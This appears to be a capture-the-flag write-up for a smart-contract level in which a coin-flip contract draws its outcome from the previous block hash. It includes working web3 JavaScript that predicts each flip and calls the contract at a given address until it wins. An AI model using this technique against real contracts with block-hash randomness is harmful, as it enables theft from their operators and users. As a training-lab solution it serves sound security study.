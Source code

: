 To solve this level we need to make the correct guess (0 or 1) 10 times in a row to win. The correct value is determined from the block hash of the previous block. Given that we have a good chance of knowing which block our transaction will be included in, we can look up the hash for the previous block and calculate the expected value.

We can make use of web3 for getting this block information and calculating the correct guess:
```javascript
var abi = [{"constant":true,"inputs":[],"name":"consecutiveWins","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"inputs":[],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"constant":false,"inputs":[{"name":"_guess","type":"bool"}],"name":"flip","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"}];
var contract = web3.eth.contract(abi).at("0xf7753af1edf59d783a8beaa4dbf99f004385b998")

function run_once() {
    var factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    web3.eth.getBlockNumber(async (err, last_block_number) => {
        console.log("Transaction must be in block " + (last_block_number + 1));
        // Our transaction will hopefully be included in the next block, making this block
        // number be the "last block"
        web3.eth.getBlock(last_block_number, async (err, block) => {
            console.log("Last block hash: " + block.hash);
            let guess = Math.trunc(block.hash / factor);
            console.log("Guess: " + guess);
            // Be generous with gas prices so there's a better chance we get included in the next block
            contract.flip(guess, {from: "0x8E0Ff062059376013FA56470805bec01b5aD06cc", gasPrice: 3000000000000}, ()=>{});
        })
    });
}
```

Now we just call `run_once` 10+ times in a row, waiting each time for the transaction to be mined. If at any point we don't get included in the block we'd hoped for then there's a 50% chance we make the wrong guess which will reset our consecutive wins to 0. Usually we will get the block we want though, proven by the fact that I was able to solve this level in ~15 executions.

